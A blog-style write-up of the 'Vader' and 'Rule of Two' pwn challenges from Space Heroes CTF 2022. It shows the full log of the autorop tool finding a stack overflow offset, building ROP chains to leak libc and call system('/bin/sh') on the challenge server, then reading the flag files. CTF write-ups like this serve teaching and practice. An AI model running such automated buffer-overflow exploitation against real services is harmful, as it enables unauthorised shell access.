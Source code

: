 ```yaml
---
layout: post
title:  "Vader and Rule of Two (PWN Challenge Writeup) -- Space Heroes CTF 2022"
date:   2022-04-04
image: spaceheroes.png
---
```

<p class="intro"><span class="dropcap">F</span>ITSEC Team from <a href="https://research.fit.edu/fitsec/">Florida Tech</a> has done an excellent job preparing this CTF. These two challenges have one thing in common and that is that they can be solved using automated tools! <strong>This is a UNINTENDED Solution.</strong></p>


### This is a UNINTENDED Solution for this two challenges.


Challenges Description:

<figure>
        <img src="/assets/img/vader.png" alt="" />
        <figcaption>PWN Challenges</figcaption>
</figure>

If you see close, you note that both challenge has the same address, same port, and most important, the same binary!!

I will use an automated tool for CTF PWN resolution challenges called [AUTOROP](https://autorop.readthedocs.io/en/latest/)


```bash
┌──(leonuz㉿sniper)-[~[~/SpaceHeroesCTF/PWN/Vader]]
└─$ autorop ./vader 0.cloud.chals.io 20712 
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False, ['__libc_start_main', 'puts']), Auto(), SystemBinSh())
[*] Pipeline [1/5]: Corefile()
[+] Starting local process './vader': pid 9817
[*] Process './vader' stopped with exit code -11 (SIGSEGV) (pid 9817)
[+] Receiving all data: Done (0B)
[+] Parsing corefile...: Done
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'/core.9817'
    Arch:      amd64-64-little
    RIP:       0x4015f9
    RSP:       0x7ffe4eb5c7c8
    Exe:       '/home/leonuz/CTFs/SpaceHeroesCTF/vader' (0x400000)
    Fault:     0x6161616161616166
[*] Fault address @ 0x6161616161616166
[*] Offset to return address is 40
[*] Pipeline [2/5]: OpenTarget()
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Pipeline [3/5]: Puts(False, ['__libc_start_main', 'puts'])
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Loaded 20 cached gadgets for './vader'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:         0x404ff0 [arg0] rdi = __libc_start_main
    0x0018:         0x401030 puts
    0x0020:         0x401016 ret
    0x0028:         0x40165b pop rdi; ret
    0x0030:         0x405018 [arg0] rdi = got.puts
    0x0038:         0x401030 puts
    0x0040:         0x401016 ret
    0x0048:         0x4015b5 main()
[*] leaked __libc_start_main @ 0x7f1409a81720
[*] leaked puts @ 0x7f1409acfde0
[*] Pipeline [4/5]: Auto()
[*] Searching for libc based on leaks using libc.rip
[!] 8 matching libc's found, picking first one
[*] Downloading libc
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/.autorop.libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Pipeline [5/5]: SystemBinSh()
[*] Loaded 191 cached gadgets for '.autorop.libc'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:   0x7f1409be2962 [arg0] rdi = 139724039530850
    0x0018:   0x7f1409aa3850 system
    0x0020:         0x401016 ret
    0x0028:         0x4015b5 main()
[*] Switching to interactive mode
MMMMMMMMMMMMMMMMMMMMMMMMMMMWXKOxdolc;',;;::llclodkOKNWMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMWXOoc;::::::;;;clkKNXxlcccc:::::cdOXWMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMWMMNkc,;clccc;,...    .:c:. ...,;:cccc:,,ckNMWMMMMMMMMMMMMMDARK
MMMMMMMMMMMMMMMMMMXx;;lol:'            .'.           .':loc',xNMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMW0:;dxlcc'            .dO;             .::lxo':0MMMMMMMMMMMMS1D3
MMMMMMMMMMMMMMMWk':Ol;x0c           ';oKK: .            cOo,dk;,OMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMO':Ol:0Xc            l0OXNc.l'            cKO;o0;,KMMMMMMMMMMMMOF
MMMMMMMMMMMMMMX:'Oo:KMd             o0ONWc'x,            .xM0:xk.lWMMMMMMMMMMMMM
MMMMMMMMMMMMMMx.okcOMMk.            o0OWMl'x;            .xMMklOc'OMMMMMMMMMMTH3
MMMMMMMMMMMMMWc'xldWMMWKx'          oOkNMo,x;          'oONMMWdod.oMMMMMMMMMMMMM
MMMMMMMMMMMMMK;:dl0MMMMMXc          lOxNMo'd;          lWMMMMMOld;:NMMMMMMMFORC3
MMMMMMMMMMMMMO':ldWMMMMWo           ckxNMd,d;          .kMMMMMNlc;,KMMMMMMMMMMMM
MMMMMMMMMMMMMk';cxMMMMMWOl:,.       cxxNMx;d;       .,;l0MMMMMWdc;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx',cOMMMWXOxoc;.       cxxNMkcx:       .cdkOXWMMMMd:;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx';;l0xl,.    .       ,0xdWMOcOx.           .,lkXWd:;'OMMMMMMMMMMMM
MMMMMMMMMMMMMd.ld:'    .',;::ccc:;,kWxxWMOlONo',:cc::,'...   'ood:'OMMMMMMMMMMMM
MMMMMMMMMMMMWl.xK:            .';coOXo:xxo:kKkl:;'.           .oXl.OMMMMMMMMMMMM
MMMMMMMMMMMM0';d'       .......',;;''.    ..'',;,'......        lo.lWMMMMMMMMMMM
MMMMMMMMMMMX:,l'        ..      .',:;lo. ;d:;:,..     ..         c:.xWMMMMMMMMMM
MMMMMMMMMMNc,o,                     '0XxoOWd.                    .l:,0MMMMMMMMMM
MMMMMMMMMWd,o;                      .xMNXWWc                      .o::XMMMMMMMMM
MMMMMMMMMk,oc                    .. .kXkdONc ..                    'd;oWMMMMMMMM
MMMMMMMM0;lo.         .;:,'....  'cxxo;'''cxxo:. ......';'          :x:xWMMMMMMM
MMMMMMMK:lx.           'xNNXXXKd;;::,.,l:..':c;,;xKKKXX0l.           oxcOMMMMMMM
MMMMMMXcck,         ..   ,cloool:. .lc,,'.cx, .';looooc.             .kxlKMMMMMM
MMMMMWoc0c      .'. .cdll;..',;lkOxxl:xOOxclddkkl:,''.';:cl'  ..      :KddNMMMMM
MMMMWxc0x.       :o; .xWWKkdodkKWMMKlxWMMMKdOMMWXkdoloONMXc .cc.      .dXdxWMMMM
MMMMOcOK;         'xd.'0MMMMMMMXk0Xc'dKXXKO:,0KkKWMMMMMMWo.;xl.        ,0XxOWMMM
MMM0lkNo           .xO;cXWWMWXd:dx; ;d;,:l:  ;xd:l0WMMMWx,oO;           oWKx0MMM
MMKokW0'            .dKdOWMNx;ckd:. lK,.cOd..lcdO:'oXMMKokO,            .OWKkXMM
MXdxN0;              .kWNWXc.,d;.do lK,.:kd.,0l.;o,.:KWNNK,              ;KW0kNM
NxdOc.                ,0MMd..;l''Oo lK,.;kd.;Ko .,,. lWMXc                'xXOOW
xd0d.                  ;KMO,.c0ocXk;xXocxK0cdNOcol'''dWWd.                 .o0kO
,xWX:                   :XXc.:oddxxxxxxddxxxxkkOko;.:KNd.                  'kN0l
.,dOkdoc:,'..            .'..,lxkox0OO0kxOOxOOddxl,..,,.              ..,:lkKOl.
x,...',;:cc::;,,'''...        .,;cdO0KKKXXKkdo:,,'.        ...'',,,,;;clllc;'..;
MNKOxdoolcc::;;;;. ..             ..,;:clc;..              ...,;;;,,'',;;:clox0N
MMMMMMMMMMMMMMMMW0;                                          'kKXXNNNWWMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd,..          ........                .. .kWMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMWKxl;..       'okOOko:,..     ..  ....';lKWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXkdc'....   .,cc:,,'..  .'o0Oo:;:cokXMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMWXkdoc;''''',,;;:::::::ccllclx0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMWXkol:;,'.''''....,cokKWMMMMMMMMMMMMMMMMMMMMMMMMMMMM


 When I left you, I was but the learner. Now I am the master >>> $ 

 ```

At this point, we can see the prompt `$` which indicate that the machine has been pwn. Let's list the directory looking for the flags. 


```bash
 When I left you, I was but the learner. Now I am the master >>> $ ls
-
banner_fail
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
service.conf
sith.txt
srv
sys
tmp
usr
vader
var
wrapper
$ cat flag.txt
shctf{th3r3-1s-n0-try}
$ cat sith.txt
shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 20712
[*] Closed connection to 0.cloud.chals.io port 20712
                                                                                                                                                                                            
```
<center>flag for "Vader" Challenge is inside of flag.txt:</center>
**<center>shctf{th3r3-1s-n0-try}</center>**
<center>flag for "Rule of two" Challenge is inside of sith.txt: </center>
**<center>shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}</center>**

---

#### More Info about automatic tools for PWN here 
- [AUTOROP](https://github.com/mariuszskon/autorop)
- [ZERATOOL](https://github.com/ChrisTheCoolHut/Zeratool)

- - -
### Final Notes.

An excellent engineering professor taught me that **"As an engineers we can't know ALL the answers, but we should know how to look for them"**.

- - -

Thanks [FITSEC Team](https://research.fit.edu/fitsec/) for the excellent CTF.

For fun and knowledge, always think out of the box! :)

<figure>
        <img src="/assets/img/score.png" alt="" />
</figure>

---
